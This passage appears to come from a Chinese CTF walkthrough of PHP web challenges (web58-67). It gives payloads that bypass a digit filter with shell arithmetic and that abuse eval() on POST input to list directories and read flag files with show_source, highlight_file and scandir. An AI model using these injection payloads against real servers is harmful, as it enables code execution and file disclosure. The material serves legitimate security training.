 ```php
    }
}else{
    highlight_file(__FILE__);
}
```
这个题要传参c=36，但是由过滤了数字，可以考虑如下方式绕过
看这个例子
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637860730620-1abfb4d1-6da2-4059-8157-4af44c08a0aa.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=100&id=u88d4d697&margin=%5Bobject%20Object%5D&name=image.png&originHeight=99&originWidth=265&originalType=binary&ratio=1&rotation=0&showTitle=false&size=44848&status=done&style=none&taskId=u1990f488-9e97-49fc-ace7-dd8a13fb14e&title=&width=268)
为什么会输出0呢，因为在shell中$(())可做运算，当参数为空时，打印0，那如何得到36呢，我们对0取反，得到是-1，然后用37个-1相加得到-37，最后再取反就得到36了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637860973823-e1cea168-21e7-4251-bd72-3f0ceef253e2.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=100&id=u51b24e4c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=86&originWidth=275&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37461&status=done&style=none&taskId=uc27c57ca-7f2c-4686-9a54-26fac61a10d&title=&width=320)
得到-1
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861295855-95cea956-3cf8-43ec-82fd-f1be6b1e35a0.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=150&id=u125e3e20&margin=%5Bobject%20Object%5D&name=image.png&originHeight=188&originWidth=1131&originalType=binary&ratio=1&rotation=0&showTitle=false&size=395325&status=done&style=none&taskId=uaa385bd6-1097-4607-a296-62da347de06&title=&width=902)
37次运算后得到-37，最后取反得到36
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861257944-40d23a4b-f17e-4f60-87d2-95400dff3a7e.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=150&id=u8f600c46&margin=%5Bobject%20Object%5D&name=image.png&originHeight=194&originWidth=1119&originalType=binary&ratio=1&rotation=0&showTitle=false&size=402152&status=done&style=none&taskId=uae63e0a0-e079-4ae6-923e-a54f164cf81&title=&width=865)
```
payload：/?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
右键查看源码即可获得flag
## web58-65（突破禁用函数）
```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
这8个题可以通杀
payload：c=show_source('flag.php');
## web66（突破禁用函数）
```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
show_source被禁用了，尝试另一种：c=highlight_file('flag.php');
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637861897471-ec1e3db6-0ebf-47e0-819a-422f51ff73ed.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=50&id=ua61a51d6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=44&originWidth=269&originalType=binary&ratio=1&rotation=0&showTitle=false&size=985&status=done&style=none&taskId=ub9eac542-67ec-40f6-864a-f2b06ed1db2&title=&width=306)
好家伙，看来路径变了，先看看都有哪些文件吧：c=print_r(scandir('.'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637862019048-dc174cac-ee38-4042-9b11-ae2b8774cec3.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=300&id=u4b0e3639&margin=%5Bobject%20Object%5D&name=image.png&originHeight=541&originWidth=1197&originalType=binary&ratio=1&rotation=0&showTitle=false&size=49088&status=done&style=none&taskId=u8bb22d52-5109-482a-97bf-29a5182cb3b&title=&width=664)
当前目录没有，再瞅一眼根目录：c=print_r(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637862111503-ac782c87-2950-4218-b1ad-e2133bcd7456.png#clientId=uede25bb3-efec-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=300&id=u48c8480d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=558&originWidth=1189&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56736&status=done&style=none&taskId=u00a4038f-c719-47b8-b1cb-fef95db0f0c&title=&width=639)
找到你了！可恶的flag.txt
最终payload：c=highlight_file('/flag.txt');
## web67（突破禁用函数）